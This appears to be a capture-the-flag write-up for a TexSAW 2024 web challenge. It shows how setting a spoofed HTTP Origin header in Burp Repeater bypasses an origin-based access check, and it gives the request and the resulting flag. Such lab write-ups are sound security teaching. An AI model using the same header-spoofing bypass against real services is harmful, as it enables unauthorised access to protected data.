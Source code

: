 On the web page it is written that

"We are so secure that we only allow requests from our own origin to access secret data. Talk about some serious security!"

![alt text](Attachments/1.png)

In burp, capture the request, send it to repeater and add the HTTP Origin header

```http
GET / HTTP/1.1

Host: 3.23.56.243:9003

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Upgrade-Insecure-Requests: 1

Origin: https://texsaw2024.com
```

And we get the flag

flag : texsaw{s7t_y0ur_or7g7n}

